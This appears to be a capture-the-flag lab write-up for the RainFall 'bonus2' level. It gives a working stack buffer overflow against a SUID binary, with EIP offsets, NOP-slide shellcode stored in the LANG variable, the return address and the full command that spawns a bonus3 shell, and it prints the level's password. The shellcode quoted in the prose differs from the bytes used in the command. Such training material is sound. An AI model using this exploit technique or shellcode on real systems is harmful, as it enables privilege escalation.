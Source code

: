 # Level bonus 2

## Vulnerability

strcat() buffer overflow

## Context

We find a binary with owner ```bonus3``` and SUID.
```
bonus2@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
```
When run with 0 or 1 arguments, it does nothing. Run with 2 arguments it prints "Hello " + first argument.
```
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 wait
bonus2@RainFall:~$ ./bonus2 wait what?
Hello wait
```

## Solution

In summary, the program expects to be given a username, then prints "Hello <username>".

Investigating with gdb we find ```main()``` initializes a 72 byte buffer, copies 40 bytes from argv[1], then 32 bytes from argv[2]. It then checks the language env variable, setting global variable ```lang```: English (default) = 0, Finnish = 1, Dutch = 2.

```main``` then calls function ```greetuser()``` which copies "Hello " (in the appropriate language) into a 64 byte buffer, then concatenates the given username string. Finally ```puts``` prints the buffer "Hello <username>".

It looks like when using ```strcat()``` to concaternate the 72 byte ```main()``` buffer to the 64 byte ```greetuser()``` buffer, it could overflow. Lets try to break it.
```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 32')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
```

### Find EIP offset

Great, lets see if we can overwrite the EIP. Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find our overflow does not reach the EIP.
```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
```
Perhaps if we change language, so have a longer greeting message, our overflow will reach the EIP. In Finnish we find our EIP offset is 18.
```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ env | grep "LANG"
LANG=fi
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```
In Dutch we find our EIP offset is 23.
```
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
```

### Store exploit in env

Next: overwrite EIP with what address? Where we should store our malicious code? We export our malicious code into the ```env``` following the ```export LANG=fi``` (Let's be Finnish!).

First a NOP slide ```'\x90' * 100```, then our [malicious shell code which calls system, opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) same as previous levels. ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```. 

Putting that together:
```
bonus2@RainFall:~$ export LANG=$(python -c 'print("fi" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

### Find exploit address

Find the address of NOP slide in the env language variable with gdb. Create a break point at ```getenv("LANG")```, run and examine the memory.
```
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) break *main+125
...
(gdb) run first_name second_name
...
(gdb) x/19s *((char**)environ)
...
0xbffffe79:	 "LANG=fi\220\220...
```
We find our exploit stored after the language var starting at ```0xbffffe79```. We need to add to this address to land somewhere on our NOP slide, lets add 42 giving us the target address ```0xbffffea3```.

### Build overflow string

So, we build our first argument:
* 40 bytes padding - ```$(python -c 'print "A" * 40')```

And our second argument:
1. 18 bytes padding (23 if Dutch) - ```$(python -c 'print "B" * 18')```
2. address on NOP slide in env language variable - ```\xa3\xfe\xff\xbf```

```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xa3\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## Recreate Exploited Binary

As user ```bonus3```, in ```/tmp```, create and compile ```bonus2_source.c```
```
bonus3@RainFall:/tmp$ gcc bonus2_source.c -fno-stack-protector -z execstack -o bonus2_source
```

Edit permissions including suid, then move the binary to home directory.
```
bonus3@RainFall:/tmp$ chmod u+s bonus2_source; chmod +wx ~; mv bonus2_source ~
```

Exit back to user ```bonus2```, then provide our exploit as argument to the source. Luckily, the env language var address is similar, so the return address doesn't need updating.
```
bonus3@RainFall:/tmp$ exit
exit
bonus2@RainFall:~$ /home/user/bonus3/bonus2_source $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xa3\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
```

To find the new env language variable with gdb. Find the addess of ```getenv("LANG")``` in ```main``` and create a break point, run and examine the memory.
```
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) disas main
...
   0x080485d2 <+131>:	call   0x80483a0 <getenv@plt>
...
(gdb) break *main+131
...
(gdb) run first_name second_name
...
(gdb) x/19s *((char**)environ)
...
0xbffffe72:	 "LANG=fi\220\220...
```
